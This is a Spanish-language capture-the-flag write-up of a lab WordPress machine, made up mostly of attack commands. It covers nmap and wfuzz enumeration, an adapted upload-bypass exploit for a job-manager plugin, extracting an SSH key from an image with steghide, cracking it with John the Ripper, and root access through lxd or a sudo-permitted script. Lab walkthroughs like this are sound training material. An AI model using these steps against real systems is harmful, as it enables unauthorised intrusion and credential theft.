 ## Summary

- IP -> 10.10.10.10
- Ports -> TCP (22,80), UDP (idk)
- OS ->  
- Services & Applications
    - 22 -> SSH Openssh 7.2p2
    - 80 -> HTTP Apache Httpd 2.4.18 -> WordPress 4.7.3, La version mas actual de WordPress es la 6.0

## Recon
Launchpad SSH Openssh 7.2p2 4ubuntu2.1 -> Para saber el Codename Xenial
Launchpad Apache 2.4.18 ->  Xenial

- Comando -> **whatweb http://< URL>**  Nos dara una breve descripcion del gestor de contenidos del puerto 80

❯ **nmap --script http-enum -p80 10.10.10.10 -oN WebScan** 
-   -p80 -> Indica el puerto que se quiere escanear
-   10.10.10.10 -> Dirección IP que se quiere escanear
-   -oN WebScan -> Exporta el output a un fichero en formato nmap con nombre “WebScan”
-  http-enum -> Aplica Fuzing a HTTP, utiliza un diccionario de 1000 rutas y ver si hay algunas rutas existen

Enocntramos un usuario en la pagina que se llama Takis, por lo que lo verificamos en el panel de autenticacion

Ruta tipica de WordPress
- **/wp-admin.php** Es la ruta del panel de autenticacion de WordPress
- **/wp-login.php** Es la ruta del panel de autenticacion de WordPress
En ese panel podemos enumerar usuarios validos

- Comando -> **curl -s -X GET "http://10.10.10.10/index.php/jobs/apply/8/" | html2text** Tramitamos la peticion y para verlo mas bonito e intepretado le ponermos el html2text
- Comando -> **curl -s -X GET "http://10.10.10.10/index.php/jobs/apply/8/" | html2text | grep "Job application"** Tramitamos la peticion y para verlo mas bonito e intepretado le ponermos el html2text, ademas de simplificar lo que queremos para solo ver el tiitulo

- Comando -> **curl -s -X GET "http://10.10.10.10/index.php/jobs/apply/8/" | html2text | grep "Job application" | awk '{print $2}' FS=":"** Tramitamos la peticion y para verlo mas bonito e intepretado le ponermos el html2text, ademas de simplificar lo que queremos para solo ver el tiitulo. El awk nos permite delimitar por los dos puntos y asi tomaremos el segundo argumento 

Ahora nos contriumos un ciclo for para poder ver todos los titulos posibles 
- Comando -> **for i in $(seq 1 100); do curl -s -X GET "http://10.10.10.10/index.php/jobs/apply/\$i/" | html2text | grep "Job application" | awk '{print $2}' FS=":"; done** 
Ira iterando de uno en uno hasta llegar al cien y nos mostrara todos los titulos que existan (En el $i debemos de quitarle el \\, solo se puso para que no se modificara el comando en este caso)

Ahora debemos de enumerar Plugins en el WordPress
- Comando -> **wfuzz -c --hc=404 -t 200 -w /user/share/Seclists/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt http://10.10.10.10/FUZZ/** Hacemos fuzing a una pagina web especifica para poder encontrar subdominios con un diccionario especifico, y el diccionario se aplicara en la palabra FUZZ (c=colorizado, w=wordlist, hc=hidecode, hh=hide characters ch en caso que sea necesario, t=tareas simultaneas). Es importante poner el nombre de la url, ya que muchas veces con la pura IP no encuentra nada. 

Buscamos en Google (wordpress job manager exploit)
Miramos que podemos hacer Bypass por medio de la parte del CV, y justamente hay una seccion en la pagina en donde podemos subir un CV.

Ahora debemos de buscar un Exploit pero como es del 2017 buscaremos en la pagina de las Snapshots (Wayback machine)
https://archive.org
Ahi buscaremos la pagina Vagmour.es que cotiene el exploit que necesitaremos para poder hacer el Bypass. Lo buscaremos en Agosto del 2018

Econtramos escrito el exploit. Por lo que hacemos un archivo en nano con la extension .py
Ahi adentro lo pegamos y modificamos los siguientes campos:
	#!/usr/bin/python3
	print ()
	range (2017,2022) agregaremos mas anos 
	website =input
	filename=input
	extensions = 'jpg', 'png', 'gif' ... Agregaremos mas extensiones 
	print()

Con ese script lo que hace es que ingresemos primero el sitio vulnerable y despues el documento a buscar. Lo que hace es Fuzzing
Direccion IP : 10.10.10.10
filename : HackerAccessGranted

Nos encuentra un archivo .jpg 

Nos guardamos la imagen y nos la traemos a nuestra ruta de trabajo
* Comando -> **exiftool HackerAccessGranted.jpg** Para ver los metadatos de la imagen
- Comando -> **strings HackerAccessGranted.jpg** Imprimir las cadenas de caracteres 
- Comando -> **strings HackerAccessGranted.jpg -n 10** Imprimir las cadenas de caracteres, listamos las cadenas que contengan mas de 10 caracteres

- Comando -> **steghide info HackerAccessGranted.jpg** Para informarme si en esa imagen hay informacion oculta, le damos 'y' y despues le damos enter, pensando que no hay passwd
- Comando -> **steghide extract -sf HackerAccessGranted.jpg** Para extraer la informacion de la imagen, enter porque no esta protegido por passwd y obtenemos la id_rsa, en este caso de esta maquina
- Comando -> **steghide embed -cf gato.jpg -ef passwd** Donde la imagen se llama gato y lo que le queremos ocultar es el /etc/passwd y podemos ponerle o no passwd 

Tenemos el id_rsa pero esta esta encriptada
- Comando -> **chmod 600 id_rsa** Es el privilegio que debe tener una id_rsa

Usaremos jhon the ripper para extraer un Hash
- Comando -> **jhon id_rsa > hash** Para poder estraer el hash y lo pasamos a un archivo llamado hash
- Comando -> **jhon -w:$(locate rockyou.txt) hash** Aplicaremos fuerza bruta al hash con el diccionario de rockyou.txt

## User
- Comando -> **ssh -i id_rsa takis@10.10.10.10** Nos conectamos por ssh teniendo un id_rsa con privilegio 600, y empleamos la passwd que encontramos con jhon

Buscamos la flag de user.txt

## Root

- **lsb_release -a** Para ver la version del Ubuntu 
- **whoami**
- **id** Y nos encontramos en el grupo **lxd** y existe una via potencial para poder escalar privilegios
- **searchsploit lxd** Buscaremos el sploit en .sh 
- **searchsploit -x /linux/local/46978.sh** Este sploit esta hecho por Savitar y seguimos los pasos

De la forma intensionada es de la siguiente manera:
- **sudo -l** Para ver los privilegios en el Sudoers (l=ele), encontraremos un script que le podemos meter 4 argumentos. 
- **/bin/fuckin whoami** Si ejecutamos eso, nos mostrara el resultado del comando whoami que es Takis

Por lo que si lo hacemo de esta manera pasa lo siguiente:
- **sudo fuckin whoami** En este caso nos muestra que es el usuario root
- **sudo fuckin bash** En este caso nos convertira en el usuario root y listo podremos buscar la flag de root